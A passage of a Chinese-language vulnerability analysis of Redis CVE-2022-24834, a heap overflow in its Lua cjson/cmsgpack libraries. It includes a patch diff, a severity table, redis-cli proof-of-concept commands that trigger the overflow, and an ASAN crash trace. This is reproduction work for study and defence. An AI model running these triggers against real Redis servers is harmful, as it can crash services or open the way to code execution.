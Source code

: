 ``` c
src/eval.c
@@ -266,6 +266,7 @@ void freeLuaScriptsSync(dict *lua_scripts, list *lua_scripts_lru_list, lua_State
    unsigned int lua_tcache = (unsigned int)(uintptr_t)ud;
#endif
    // 补丁
+   lua_gc(lua, LUA_GCCOLLECT, 0);
    lua_close(lua);

src/function_lua.c
@@ -198,6 +198,7 @@ static void luaEngineFreeCtx(void *engine_ctx) {
    unsigned int lua_tcache = (unsigned int)(uintptr_t)ud;
#endif
    // 补丁
+   lua_gc(lua_engine_ctx->lua, LUA_GCCOLLECT, 0);
    lua_close(lua_engine_ctx->lua);
    zfree(lua_engine_ctx);
```
## CVE-2022-24834 堆溢出，可能导致RCE
披露时间：2023年7月
复现版本：7.0.11
补丁版本：7.0.12

| 严重程度 | CWE | 攻击向量 | 攻击复杂度 | 需要权限 |
| :----:  | :----: | :----: | :----: | :----: |
| 7.0 / 10 |  CWE-680 Integer Overflow to Buffer Overflow | Local | High | Low |

### 一、前置知识

前面分析过的CVE-2024-31449发生在lua_bit，CVE-2022-24834则发生在lua_cjson和lua_cmsgpack中。
1. lua_cjson是对cjson的lua实现，通过cjson.encode和cjson.decode两个功能函数来序列化和反序列化Lua对象。
2. lua_cmsgpack是一个实现在 Lua 中的 MessagePack 库，类似于 json，但速度更快且占用空间更小。通过cmsgpack.pack和cmsgpack.unpack两个功能函数来序列化和反序列化 Lua 对象。

### 二、PoC

公开PoC来自披露者的博客[^3]，对于cjson功能，需要构造一个大小为 (2^31 - 2)/6 的字符串来触发堆溢出。
``` shell
src/redis-cli eval "local str = string.rep('a',(0x80000000 - 2) / 6); cjson.encode(str) " 0
```
ASAN追踪漏洞，发现在strbuf.h:124触发了堆溢出。
``` shell
==22686==ERROR: AddressSanitizer: heap-buffer-overflow
#0 0x560308715d25 in strbuf_append_char_unsafe /opt/redis-7.0.11/deps/lua/src/strbuf.h:124
#1 0x560308715d25 in json_append_string /opt/redis-7.0.11/deps/lua/src/lua_cjson.c:484
#2 0x56030871a0c9 in json_encode /opt/redis-7.0.11/deps/lua/src/lua_cjson.c:723
#3 0x5603086dfafd in luaD_precall /opt/redis-7.0.11/deps/lua/src/ldo.c:320
#4 0x560308702b88 in luaV_execute /opt/redis-7.0.11/deps/lua/src/lvm.c:593
#5 0x5603086e10e4 in luaD_call /opt/redis-7.0.11/deps/lua/src/ldo.c:378
#6 0x5603086de251 in luaD_rawrunprotected /opt/redis-7.0.11/deps/lua/src/ldo.c:116
#7 0x5603086e15d2 in luaD_pcall /opt/redis-7.0.11/deps/lua/src/ldo.c:464
#8 0x5603086d80a5 in lua_pcall /opt/redis-7.0.11/deps/lua/src/lapi.c:827
#9 0x5603086a120c in luaCallFunction /opt/redis-7.0.11/src/script_lua.c:1678
#10 0x56030859f4dd in evalGenericCommand /opt/redis-7.0.11/src/eval.c:553
#11 0x56030859f6c1 in evalCommand /opt/redis-7.0.11/src/eval.c:563
#12 0x56030844c8c4 in call /opt/redis-7.0.11/src/server.c:3385
```
对于cmsgpack功能，则需要构造一个大小为 2^63 的字符串才能触发堆溢出，对于现阶段来说不太现实。
``` shell
src/redis-cli eval "local str = string.rep('a',2^63); cmsgpack.pack(str) " 0
```
### 三、漏洞成因
